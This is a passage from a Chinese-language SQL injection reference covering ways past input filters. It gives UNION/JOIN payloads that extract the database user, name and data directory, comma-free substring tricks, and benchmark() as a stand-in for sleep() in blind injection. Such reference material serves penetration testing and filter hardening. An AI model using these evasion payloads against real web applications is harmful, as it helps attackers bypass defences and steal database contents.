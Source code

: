 #### **<font style="color:#000000;">对于substr()和mid()这两个方法可以使用from for 的方式来解决</font>**
```sql
 select substr(database() from 1 for 1)='c';
```

#### <font style="color:#000000;">使用join关键字来绕过</font>
```sql
union select 1,2,3,4;
union select * from ((select 1)A join (select 2)B join (select 3)C join (select 4)D);
union select * from ((select 1)A join (select 2)B join (select 3)C join (select group_concat(user(),' ',database(),' ',@@datadir))D);
```

#### <font style="color:#000000;">使用like关键字 适用于substr()等提取子串的函数中的逗号</font>
```sql
select ascii(mid(user(),1,1))=80   #等价于
select user() like 'r%'
```

#### <font style="color:#000000;">使用offset关键字</font>
```sql
 select * from cms_users limit 0,1;
# 等价于下面这条SQL语句
 select * from cms_users limit 1 offset 0;
```

### 12.过滤函数绕过
#### sleep()被过滤时
sleep()时延时盲注中最常见的函数 当sleep()被过滤时可以使用benchmark()来代替

```sql
sleep() -->benchmark()
select 12,23 and sleep(1);
参数可以是需要执行的次数和表达式。第一个参数是执行次数，第二个执行的表达式
select 12,23 and benchmark(10000000,1);
```

#### ascii()被过滤时
```sql
ascii()–>hex()、bin()
替代之后再使用对应的进制转string即可
```

#### group_concat()被过滤时
```sql
group_concat()–>concat_ws()
select group_concat(“str1”,“str2”);#等价于
select concat_ws(“,”,“str1”,“str2”);
```

#### <font style="color:#000000;">substr(),substring(),mid()被过滤时</font>
```sql
substr(),substring(),mid()可以相互取代, 取子串的函数还有left(),right()
```
